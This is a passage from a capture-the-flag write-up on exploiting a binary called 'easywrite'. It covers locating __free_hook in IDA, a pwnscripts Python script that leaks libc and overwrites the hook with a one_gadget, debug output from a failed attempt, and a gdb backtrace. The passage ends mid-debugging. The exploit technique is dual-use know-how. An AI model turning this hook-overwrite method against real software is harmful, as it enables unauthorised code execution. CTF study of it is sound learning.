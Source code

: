 ...or it would've been, if there were any useful functions in the whole list. Long story short; all of the functions there are never called by the program<sup>1</sup>, so we'll move on.

After the Procedure Linkage Table, there's a long stretch of garbage in the form of the `.data` and `.bss` sections, along with a few other `__libc_*` sections that are basically never referenced either<sup>2</sup>.

A few hours of blank staring later, and my eyes finally saw something I'd missed the last 10 times I tried scanning IDA View-A:
```c
.bss:00000000001EEB28                 public __free_hook ; weak
.bss:00000000001EEB28 ; __int64 (__fastcall *_free_hook)(_QWORD, _QWORD)
.bss:00000000001EEB28 __free_hook     dq ?                    ; DATA XREF: LOAD:0000000000008A48↑o
.bss:00000000001EEB28                                         ; .got:__free_hook_ptr↑o
```
*__free_hook? Isn't that that thing that I heard about once a long time ago in a [writeup](https://teamrocketist.github.io/2019/09/09/Pwn-N1CTF-2019-warmup/) somewhere?*

To repeat something you may already know: `__free_hook()` is a function pointer that overrides the default behaviour of `free()` iff `__free_hook != NULL`. If we change `__free_hook` to point to a `one_gadget` (or something), we'll have beaten the challenge.

Let's try that.
```python
from pwnscripts import *
context.binary = 'easywrite'
context.libc_database = 'libc-database'
context.libc = 'libc-2.31.so'

context.log_level = 'debug'
r = context.binary.process()
context.libc.calc_base('setbuf', unpack_hex(r.recvline()))

free_hook = 0x00000000001EEB28+context.libc.address
r.sendafter('Input your message:', pack(context.libc.select_gadget(1)))
r.sendafter('Where to write?:', pack(free_hook))
r.sendafter('Any last message?:', b'\0')

r.interactive()
```
Things are never so simple, of course.
```python
[DEBUG] Received 0x12 bytes:
    b'Any last message?:'
[DEBUG] Sent 0x1 bytes:
    0 * 0x1
[*] Switching to interactive mode
$ ls
[DEBUG] Sent 0x3 bytes:
    b'ls\n'
[*] Got EOF while reading in interactive
$
```
A little backtracing in `gdb` shows the issue. First, we'll let it crash, and observe the backtrace:
```c
[#0] Id 1, Name: "ld-linux-x86-64", stopped 0x555556b192a0 in ?? (), reason: SIGSEGV
 trace 
[#0] 0x555556b192a0 → out 0x3c, al
[#1] 0x7f53d96b2376 → mov eax, 0x0
[#2] 0x7f53d96abb28 → __after_morecore_hook()
[#3] 0x555556b192a0 → out 0x3c, al
[#4] 0x555556b195b0 → add BYTE PTR [rax], al

```
The backtrace isn't actually that helpful, so I just hit `n` and `s` continually until I isolated the crashing instruction: